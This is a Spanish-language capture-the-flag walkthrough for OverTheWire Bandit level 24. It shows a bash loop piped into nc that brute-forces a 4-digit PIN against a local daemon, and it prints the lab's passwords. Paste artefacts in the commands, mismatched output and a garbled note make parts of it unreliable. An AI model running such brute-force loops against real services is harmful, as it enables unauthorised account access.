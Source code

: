 Level 24 
# Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
# Datos  de Acceso 
ssh bandit24@**bandit.labs.overthewire.org** -p2220

User: bandit24 Pass: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
# Solucion 

```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
^C
bandit24@bandit:~$ echo {0000..0005}
0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0000
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0001
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0002
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0003
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0004
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Timeout. Exiting.
bandit24@bandit:~$ for i in {0000..9999}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d


^C
bandit24@bandit:~$

```

# Notas Adicionales
- echo sirve para dadas en su salida estándar, con un espacio en blanco entre cada una y un carácter "salto de línea" después de la última cadena.
- nc  permite acceder a puertos TCP o UDP de la propia máquina o de otras máquinas remotas.
- grep nos permite filtrar y eliminar la información inútil que se produce tras ejecutar un comando. 